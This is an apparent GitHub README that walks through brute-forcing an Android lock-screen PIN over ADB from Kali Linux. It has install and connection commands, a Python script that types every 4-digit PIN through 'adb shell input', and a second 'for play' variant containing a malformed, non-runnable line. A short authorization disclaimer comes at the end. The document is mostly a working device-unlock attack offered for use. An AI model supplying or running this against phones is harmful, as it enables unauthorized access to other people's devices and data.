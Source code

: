 # unlock-mobil-using-ADB
This is the step-by-step process for attempting a brute force attack using Kali Linux:

1. **Install Required Tools**: Make sure you have ADB (Android Debug Bridge) installed on your Kali Linux system. If not, install it using the following command:
   
   ```
   sudo apt-get install android-tools-adb
   ```

2. **Connect the Phone**: Connect the Android phone to your Kali Linux machine via USB.

3. **Enable ADB Debugging**: On the Android phone, go to Settings > Developer Options (if available) and enable USB debugging. If Developer Options is not visible, go to About Phone and tap on the Build Number multiple times until it says you are now a developer. Then go back to Settings and you should see Developer Options.

4. **Check Connection**: Verify that your Android device is recognized by your computer by running the following command:
   
   ```
   adb devices
   ```

5. **Run Brute Force Script**: You can create a simple script to automate the brute force attack. Here's a basic example in Python:

   ```python
   import itertools
   import subprocess

   PIN_LENGTH = 4
   PIN_RANGE = range(0, 10)

   for pin in itertools.product(PIN_RANGE, repeat=PIN_LENGTH):
       pin_str = ''.join(map(str, pin))
       command = f'adb shell input text {pin_str} && adb shell input keyevent 66'
       subprocess.run(command, shell=True)
   ```

   Save this script as `brute_force.py` and execute it using the following command:

   ```
   python3 brute_force.py
   ```

   This script will attempt all possible combinations of 4-digit PINs.

6. **Monitor Progress**: Monitor the output of the script to see if it successfully unlocks the phone. You might also want to physically check the phone's screen periodically.

Remember to use this method responsibly and only on devices for which you have proper authorization. Unauthorized access to devices is illegal and unethical.

# for play

import itertools
import subprocess

PIN_LENGTH = 4
START_PIN = 1235 [The passward of your phon]
PIN_RANGE = range(0, 10)

for pin in itertools.product(PIN_RANGE, repeat=PIN_LENGTH):
    pin_str = ''.join(map(str, pin))
    if int(pin_str) < START_PIN:
        continue
    command = f'adb shell input text {pin_str} && adb shell input keyevent 66'
    subprocess.run(command, shell=True)
    if int(pin_str) == START_PIN:
        break

